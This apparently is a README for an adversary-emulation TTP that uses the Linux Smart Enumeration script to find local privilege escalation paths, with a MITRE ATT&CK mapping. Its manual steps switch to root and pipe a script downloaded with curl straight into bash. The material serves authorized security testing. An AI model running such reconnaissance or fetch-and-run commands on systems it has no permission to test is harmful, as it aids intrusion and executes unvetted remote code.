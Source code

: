 # Identify Privilege Escalation Paths with Linux Smart Enumeration

![Meta TTP](https://img.shields.io/badge/Meta_TTP-blue)

This TTP helps identify privilege escalation paths using Linux Smart
Enumeration, a tool that automates the discovery of local privilege escalation
vulnerabilities on Linux-based operating systems.

## Arguments

- **escalate_privileges**: A boolean flag indicating whether to run the TTP as
  root or not. Default is false.
- **download_link**: The URL to download the latest version of `lse.sh` from
  GitHub. Default is
  [https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh](https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh)

## Pre-requisites

1. A Linux-based operating system.
2. Bash shell.

## Examples

You can run the TTP using the following example (after updating the arguments):

```bash
ttpforge run forgearmory//privilege-escalation/linux/identify-privilege-escalation-paths-with-lse/identify-privilege-escalation-paths-with-lse.yaml \
  --arg escalate_privileges=true
```

## Steps

1. **ensure-root-user-if-required**: This step checks if the TTP needs to be run
   as root and ensures that it is being executed as the root user.
2. **download-and-run-lse**: This step downloads the latest version of `lse.sh`
   from GitHub and executes it with bash.

## Manual Reproduction Steps

```
# Escalate privileges to root (optional - being root gives you more info)
sudo su

# Download and run lse
curl -sL https://github.com/diego-treitos/linux-smart-enumeration/releases/latest/download/lse.sh | bash
```

## MITRE ATT&CK Mapping

- **Tactics**:
  - TA0003 Execution
  - TA0007 Discovery
- **Techniques**:
  - T1059 Command and Scripting Interpreter
  - T1087 Account Discovery
  - T1083 File and Directory Discovery
  - T1057 Process Discovery
  - T1069 Permission Groups Discovery
  - T1518 Software Discovery
  - T1082 System Information Discovery
  - T1033 System Owner/User Discovery
  - T1007 System Service Discovery
- **Subtechniques**:
  - T1059.004 Command and Scripting Interpreter Unix Shell
